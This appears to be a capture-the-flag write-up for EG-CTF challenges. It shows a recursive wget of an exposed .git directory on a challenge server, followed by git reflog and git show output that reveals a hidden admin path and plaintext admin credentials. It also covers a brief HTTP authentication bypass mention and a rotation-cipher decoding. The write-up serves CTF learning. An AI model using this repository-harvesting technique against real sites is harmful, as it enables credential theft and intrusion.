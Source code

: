 # EG-CTF
# Write-Up
# 1-Tamp3rat0r(web)
I have check the site and They asked me about username and password and by guess seems like http authentication bypass
and worked. check Tamp3rat0r.py
# 2-Hold Up(web)
I have test it with "DWP" and i found /.git path working and i download the directory <br/>
root@cloudshell: wget --recursive --no-parent http://172.105.76.128/.git/ <br/>
root@cloudshell: ls<br/>
172.105.76.128  <br/>
root@cloudshell: cd 172.105.76.128/<br/>
root@cloudshell:/172.105.76.128 ls -a<br/>
.  ..  .git<br/>
root@cloudshell:/172.105.76.128 cd .git/<br/>
root@cloudshell:/172.105.76.128/.git ls <br/>
branches        config       HEAD   index       index.html?C=D;O=A  index.html?C=M;O=A  index.html?C=N;O=A  index.html?C=S;O=A  info  objects<br/>
COMMIT_EDITMSG  description  hooks  index.html  index.html?C=D;O=D  index.html?C=M;O=D  index.html?C=N;O=D  index.html?C=S;O=D  logs <br/> refs<br/>
//////////////////////////////////////////<br/>
// Let's check the commits<br/>
//////////////////////////////////////////<br/>
root@cloudshell:/172.105.76.128/.git git reflog<br/>
2e3e1a8 HEAD@{0}: commit: Refining<br/>
89329fa HEAD@{1}: commit: NewFeature<br/>
dfecece HEAD@{2}: commit: Addinfo<br/>
b032cf8 HEAD@{3}: commit: Disable<br/>
5b9e491 HEAD@{4}: commit: DelCr<br/>
457168f HEAD@{5}: commit: AddUsetting<br/>
b55d897 HEAD@{6}: commit: editconf<br/>
70ae358 HEAD@{7}: commit (initial): initials<br/>
// i have check this commits one by one and i found <br/>
root@cloudshell:/172.105.76.128/.gitgit show 2e3e1a8<br/>
commit 2e3e1a8c124768ecbb31e92d5c070003924b9254<br/>
Author: Ben ALaa <a.alaa@egcert.eg><br/>
Date:   Thu Nov 14 23:18:26 2019 +0100 <br/>

    Refining 
<br/>
diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php<br/>
index 3d7f801..706d93b 100644<br/>
--- a/S3cR3tPaTh/config.php<br/>
+++ b/S3cR3tPaTh/config.php<br/>
@@ -420,15 +420,6 @@ CONFIG = array(<br/>
 'overwriteprotocol' => '',<br/>
<br/>
 /** <br/>
- * Override webroot<br/>
- * ownCloud attempts to detect the webroot for generating URLs automatically.<br/>
- * For example, if `www.example.com/owncloud` is the URL pointing to the<br/>
- * ownCloud instance, the webroot is `/owncloud`. When proxies are in use, it<br/>
- * may be difficult for ownCloud to detect this parameter, resulting in invalid URLs. <br/>
- <br/>
-'overwritewebroot' => '',<br/>
-<br/>
-/<br/>
   Override condition<br/>
   This option allows you to define a manual override condition as a regular<br/>
   expression for the remote IP address. The keys `overwritewebroot`,<br/>
   //////////////////////////////////////////////////<br/>
// This show us the path of admin login is /S3cR3tPaTh/<br/>
/////////////////////////////////////////////////////////<br/>
root@cloudshell:/172.105.76.128/.gitgit show 5b9e491<br/>
commit 5b9e491802d53d6af1ef25206ccb0765b64a248b<br/>
Author: Ben ALaa <a.alaa@egcert.eg>
Date:   Thu Nov 14 23:15:11 2019 +0100<br/>
<br/>
    DelCr<br/>
<br/>
diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php<br/>
index 46ed4f3..72e9842 100644<br/>
--- a/S3cR3tPaTh/config.php<br/>
+++ b/S3cR3tPaTh/config.php<br/>
@@ -194,7 +194,7 @@ CONFIG = array(<br/>
 'knowledgebaseenabled' => true,<br/>
<br/>
 /** <br/>
- * Enables or disables avatars or user profile photos<br/>
+ /* Enables or disables avatars or user profile photos<br/>
  * `true` enables avatars, or user profile photos, `false` disables them.<br/>
  * These appear on the User page, on user's Personal pages and are used by some apps<br/>
  * (contacts, mail, etc).<br/>
@@ -469,15 +469,7 @@ CONFIG = array(<br/>
<br/>
<br/>
<br/>
-<br/>
- Admin Credentials<br/>
-<br/>
-'Admin_Login' => 'Administrator' <br/><br/>
-'Admin_Password' => 'FN3ym@bZNaF&'<br/><br/>

///////////////////////////////////////////////////////////////// <br/>
admin = Administrator <br/>
password = FN3ym@bZNaF& <br/>
After i try it #flag : EGCTF{Co0o0o0L_I_g0t_Th3_R3p0} <br/>
Sorry if something it's not clear <br/>
////////////////////////////////////////////////////////////////// <br/>
# Rotten Code (Starter)
CEARD{Pmr14_jm0m0m0m0m0m0m0m0m0m0mn}<br/>
I try rot2 and i found the flag <br/>
#flag : EGCTF{Rot14_lo0o0o0o0o0o0o0o0o0o0op}
